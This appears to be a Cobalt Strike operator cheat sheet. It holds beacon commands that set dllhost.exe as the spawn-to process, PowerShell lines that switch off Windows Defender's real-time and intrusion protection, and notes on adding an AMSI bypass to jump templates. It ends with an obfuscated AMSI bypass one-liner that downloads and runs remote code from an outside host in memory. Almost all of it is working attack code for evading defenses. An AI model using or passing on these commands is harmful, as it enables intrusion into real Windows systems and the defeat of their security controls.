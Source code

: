 beacon> spawnto x64 %windir%\System32\dllhost.exe
beacon> spawnto x86 %windir%\syswow64\dllhost.exe
beacon> powerpick Get-Process -Id $pid | select ProcessName

# Change the default process for psexec
beacon> ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe

# Disable Defender from local powershell session
Get-MPPreference
Set-MPPreference -DisableRealTimeMonitoring $true
Set-MPPreference -DisableIOAVProtection $true
Set-MPPreference -DisableIntrusionPreventionSystem $true

## AMSI BYPASS -----------------------------------------------------------------

# AMSI BYPASS :  Use AMSI Bypass with powershell payload if required, 
# Save below one liner to a ps1 file and host it on cobalt strike and use Powershell IEX to fetch and run it in memory to bypass AMSI.

# Malleable C2 amsi_disable does not applies to Cobalt Strike Jump Command, So some methods in jump command which uses Powershell like psexec_psh , winrm and winrm64 will not work if payload is detected, So we musty have to use Custom AMSI Bypass script to avoid that and get a shell.
# To make the jump command work and include amsi bypass into it, We need to modify the Resource kit's template.x86.ps1 (for winrm), template.x64.ps1 (for winrm64) and compress.ps1 (for psexec_psh).
# To learn more , Read this blog - https://offensivedefence.co.uk/posts/making-amsi-jump/

S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} ) ; Start-Job -ScriptBlock{iex (iwr http://nickelviper.com/a -UseBasicParsing)}
